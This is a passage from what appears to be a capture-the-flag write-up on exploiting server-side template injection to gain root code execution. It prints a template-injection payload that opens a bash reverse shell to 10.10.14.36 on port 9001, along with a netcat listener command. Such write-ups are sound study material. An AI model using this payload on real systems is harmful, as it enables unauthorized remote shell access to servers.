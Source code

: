 [<img src="../images/good_games/ssti_id.png"
  style="width: 800px;"/>](../images/good_games/ssti_id.png)

As you can see from the username on the right of the page it is showing we have the result from the `id` command, which tells us we are the root user and proves we have code execution. 

So now it was time to leverage this code execution to get a reverse shell on the server.  With the payload 

\{\{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.36/9001 0>&1"').read()\}\}

While also setting up my netcat listener on my kali machine

```bash
nc -lvnp 9001
```
